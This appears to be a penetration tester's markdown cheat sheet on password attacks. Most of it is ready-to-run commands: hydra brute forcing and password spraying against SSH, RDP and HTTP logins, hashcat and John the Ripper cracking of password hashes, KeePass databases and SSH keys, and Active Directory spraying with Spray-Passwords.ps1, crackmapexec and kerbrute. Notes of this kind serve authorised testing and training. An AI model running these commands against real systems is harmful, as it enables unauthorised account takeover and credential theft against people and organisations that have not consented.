 ## Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

## Hash Cracking

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.

## Active Directory Password Cracking

Back to directly targeting an authentication interface, now in the context of AD. For all of the following it is well worth checking the password policy with `net accounts` in order to be sure that we don't immediately get locked out of every account we hit. All of the following assume that we have obtained a plaintext password by some other means, but don't yet have a matching username.

### Spray-Passwords.ps1
Querying LDAP and ADSI with user creds. This will need to be run on the target machine, however a benefit of this is that it will enumerate which users to hit for us.
```powershell
.\Spray-Passwords.ps1 -Pass 'bigboi123!' -Admin
```
```powershell
.\Spray-Passwords.ps1 -File passwords.txt -Admin
```

### crackmapexec
Another approach to password spraying against a Windows machine is available to us courtesy of `crackmapexec`. To target SMB shares with a username list and a known/candidate password (nb. We should take care to check the domain password policy with `net accounts` before we start blasting):
```bash
crackmapexec smb 192.168.12.34 -u users.txt -p '123456' -d corp.com --continue-on-success
```

### kerbrute
This time our brute forcing is aimed at obtaining a Kerberos Ticket Granting Ticket (TGT):
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "password123"
```